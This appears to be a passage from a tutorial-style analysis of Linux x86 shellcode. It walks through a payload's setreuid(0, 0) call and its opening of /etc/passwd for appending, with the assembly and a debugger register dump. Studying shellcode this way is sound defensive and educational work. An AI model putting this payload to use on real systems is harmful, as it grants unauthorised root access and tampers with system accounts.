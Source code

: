 We can check our syscall at `/usr/include/i386-linux-gnu/asm/unistd_32.h` which is defined as setreuid(). According to the man pages this sets real and effective user IDs of the calling process.

The format for that is `setreuid(uid_t ruid, uid_t euid);` which means the call here looks like this:

```
setreuid(0, 0)
```

Which means this is setting root permissions for both real and effective user ID.

## open()

Our next chunk of assembly looks like such:

```nasm
push   0x5			
pop    eax			
xor    ecx,ecx			
push   ecx			
push   0x64777373		
push   0x61702f2f		
push   0x6374652f	
mov    ebx,esp		
inc    ecx	
mov    ch,0x4		
int    0x80	
```

Let's check out the registers right before the interrupt is called. 


```
[----------------------------------registers-----------------------------------]
EAX: 0x5 
EBX: 0xbffff35c ("/etc//passwd")
ECX: 0x401 
EDX: 0xb7fa4870 --> 0x0 
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff35c ("/etc//passwd")
EIP: 0x402063 --> 0xe89380cd
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40205e <code+30>:	mov    ebx,esp
   0x402060 <code+32>:	inc    ecx
   0x402061 <code+33>:	mov    ch,0x4
=> 0x402063 <code+35>:	int    0x80
   0x402065 <code+37>:	xchg   ebx,eax
   0x402066 <code+38>:	call   0x402091 <code+81>
   0x40206b <code+43>:	popa   
   0x40206c <code+44>:	bound  esi,QWORD PTR [ebx+0x6f]

```

